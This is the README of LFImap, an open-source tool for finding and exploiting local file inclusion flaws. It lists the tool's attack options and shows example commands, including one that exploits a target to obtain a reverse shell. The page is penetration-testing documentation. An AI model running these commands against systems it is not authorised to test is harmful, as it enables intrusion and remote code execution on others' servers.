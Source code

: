 # LFImap
## Local file inclusion discovery and exploitation tool

### Main features
- Filter wrapper for arbitrary file inclusion
- Data wrapper for remote command execution
- Input wrapper for remote command execution
- Expect wrapper for remote command execution
- File wrapper for arbitrary file inclusion
- Path truncation for arbitrary file inclusion
- Remote file inclusion for code execution
- Command injection for remote command execution
- Full control over how the requests are sent
    - Test with arbitrary HTTP method
    - Test with multiple specified HTTP headers
    - Specification of custom injection point (default 'PWN') in headers or GET/form-data line
    - Specification of delay after each request
    - Specifying of web proxy to send requests through
    - Option to output each request and response to a log file
- Quick mode that uses fewer payloads to test each endpoint
- Support for payload manipulation via url and base64 encoding(s)
- Support for automated reverse shell access upon successful remote code execution

### Documentation
- [Installation](https://github.com/hansmach1ne/lfimap/wiki/Installation)

### -h, --help

```                  
usage: lfimap.py [-U [url]] [-F [urlfile]] [-C <cookie>] [-D <data>] [-H <header>] [-M <method>]
                 [-P <proxy>] [--useragent <agent>] [--referer <referer>] [--placeholder <name>]
                 [--delay <milis>] [--http-ok <number>] [--no-stop] [-f] [-i] [-d] [-e] [-t] [-r]
                 [-c] [-file] [-heur] [-a] [-n <U|B>] [-q] [-x] [--lhost <lhost>] [--lport <lport>]
                 [-wT <path>] [--use-long] [--log <file>] [-v] [-h]

LFImap, Local File Inclusion discovery and exploitation tool

MANDATORY:
  -U [url]              Specify url, Ex: "http://example.org/vuln.php?param=PWN"
  -F [urlfile]          Specify url wordlist (every line should have --param|"PWN")

GENERAL OPTIONS:
  -C <cookie>           Specify session cookie, Ex: "PHPSESSID=1943785348b45"
  -D <data>             Specify HTTP request form data
  -H <header>           Specify additional HTTP header(s). Ex: "X-Forwarded-For:127.0.0.1"
  -M <method>           Specify HTTP request method to use for testing
  -P <proxy>            Specify proxy. Ex: "http://127.0.0.1:8080"
  --useragent <agent>   Specify HTTP user agent header value
  --referer <referer>   Specify HTTP referer header value
  --placeholder <name>  Specify different testing placeholder value (default "PWN")
  --delay <milis>       Specify delay in miliseconds after each request
  --http-ok <number>    Specify http response code(s) to treat as valid
  --no-stop             Don't stop using same method upon findings

ATTACK TECHNIQUE:
  -f, --filter          Attack using filter wrapper
  -i, --input           Attack using input wrapper
  -d, --data            Attack using data wrapper
  -e, --expect          Attack using expect wrapper
  -t, --trunc           Attack using path truncation with wordlist (default "short.txt")
  -r, --rfi             Attack using remote file inclusion
  -c, --cmd             Attack using command injection
  -file, --file         Attack using file wrapper
  -heur, --heuristics   Test for miscellaneous vulns using heuristics
  -a, --all             Use all available testing methods

PAYLOAD OPTIONS:
  -n <U|B>              Specify additional payload encoding(s). "U" for URL, "B" for base64
  -q, --quick           Perform quick testing with few payloads
  -x, --exploit         Exploit to reverse shell if possible (Setup reverse listener first)
  --lhost <lhost>       Specify local ip address for reverse connection
  --lport <lport>       Specify local port number for reverse connection

WORDLIST OPTIONS:
  -wT <path>            Specify path to wordlist for truncation test modality
  --use-long            Use "wordlists/long.txt" wordlist for truncation test modality

OUTPUT OPTIONS:
  --log <file>          Output all requests and responses to specified file

OTHER:
  -v, --verbose         Print more detailed output when performing attacks
  -h, --help            Print this help message
  
```

### Examples 

#### 1) All attacks with '-a' (filter, input, data, expect and file wrappers, remote file inclusion, command injection, XSS, error disclosure).
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a`  

![Lfimap-1](https://user-images.githubusercontent.com/57464251/186299395-c6a91666-0e95-484e-8537-6f248d257f5b.png)


#### 2) Reverse shell command execution attack with '-x'
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a --lhost IP --lport PORT -x`  

![Lfimap-2](https://user-images.githubusercontent.com/57464251/186299661-7d6b480b-953f-4a7e-a806-5f39435f07fd.png)


#### 3) Post argument testing with '-D'

`python3 lfimap.py -U "http://IP/index.php" -D "page=PWN" -a`

![Lfimap-3](https://user-images.githubusercontent.com/57464251/186302047-0a2e9ab9-e4f0-43bb-b245-0235b6950ea0.png)


If you notice any issues with the software, please open up an issue. I will gladly take a look at it and try to resolve it. <br>
Pull requests are welcome.

[!] Disclaimer: Lfimap usage for attacking web applications without consent of the application owner is illegal. Developers assume no liability and are 
not responsible for any misuse and damage caused by using this program.
